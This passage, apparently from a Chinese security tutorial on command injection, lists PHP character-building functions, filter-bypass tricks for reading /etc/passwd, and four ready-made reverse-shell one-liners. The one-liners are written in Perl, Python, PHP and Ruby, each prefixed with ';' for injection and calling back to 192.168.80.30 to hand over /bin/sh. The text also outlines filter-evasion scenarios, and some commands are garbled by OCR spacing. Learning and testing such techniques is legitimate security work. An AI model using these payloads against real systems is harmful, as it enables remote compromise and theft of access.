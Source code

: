 tan():正切。  
  
floor():舍去法取整。  
  
sqrt():平方根。  
  
crypt():单向字符串散列。  
  
hebrevc:将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符。  
  
hebrevc(crypt(arg)) [crypt(serialize(array()))]:可以随机生成一个 hash 值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过 ord chr 只取第一个字符。  
  
ord:返回字符串的第一个字符的 ASCII 码值。  
##### l 未定义的初始化变量  
  
cat$b /etc/passwd  
##### l 连接符  
  
cat /etc/pass'w'd  
  
例子ls命令我们可以通过以下语法代替执行  
  
/???/?s --help  
#### 9. 反向连接（Reverse Shell）的各类技术方法  
  
- ; perl-e 'use Socket;$i="192.168.80.30";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh-i");};'  
  
  
- ; python-c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.80.30",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
  
  
- ; php-r '$sock=fsockopen("192.168.80.30",443);exec("/bin/sh-i<&3 >&3 2>&3");  
’  
  
  
- ; ruby-rsocket-e'f=TCPSocket.open("192.168.80.30",443).to_i;execsprintf("/bin/sh-i<&%d >&%d 2>&%d",f,f,f)'  
#### 10. 一些场景应用  
  
1、无任何过滤或简单过滤  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/twRRNxG1MqwqgIkYXMvU1yfRJAsGnGEfgiajYDQPP2IbZwhDtUqga6clian9xEW0nnibCPZjUXfPtwxqMibnVXamSw/640?wx_fmt=png&from=appmsg "")  
  
2、过滤了;,|,&,`  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/twRRNxG1MqwqgIkYXMvU1yfRJAsGnGEfT8yFETGJ6v9c3rLte5qSxsmBibgic7uia8ZVGJfianeHpqssp4EDDiaEF7g/640?wx_fmt=png&from=appmsg "")  
  
  
3、过滤了;,|,&,`,\s  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/twRRNxG1MqwqgIkYXMvU1yfRJAsGnGEfc3oREgLic155AoibdJdLdjcgxZ0kyHOic5UpGKezYNeibTm10Len9DY2tg/640?wx_fmt=png&from=appmsg "")  
  
  
4、过滤了关键词，比如cat  
  